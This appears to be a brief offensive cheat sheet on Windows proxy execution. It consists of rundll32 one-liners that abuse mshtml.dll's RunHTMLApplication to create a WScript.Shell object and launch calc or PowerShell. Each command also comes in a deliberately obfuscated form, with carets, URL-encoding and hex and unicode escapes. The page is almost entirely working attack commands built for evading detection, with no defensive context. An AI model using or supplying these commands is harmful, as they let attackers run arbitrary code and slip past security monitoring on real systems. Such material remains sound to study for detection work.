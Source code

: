 # Windows

## rundll32 (still works)

**command line:**

```rundll32 javascript:"\..\mshtml.dll,RunHTMLApplication";document.write();new ActiveXObject('WScript.Shell').Run('calc')```

**obfuscated:**

```@run^dll^32 java^script:"\..\mshtml.dll,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0063\u0061\u006c\u0063'%29```

**start powershell:**

```rundll32 javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();new ActiveXObject('WScript.Shell').Run('powershell')```

**obfuscated:**

```@run^dll^32 java^script:"\..\mshtml.dll,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0070\u006f\u0077\u0065\u0072\u0073\u0068\u0065\u006c\u006c'%29```
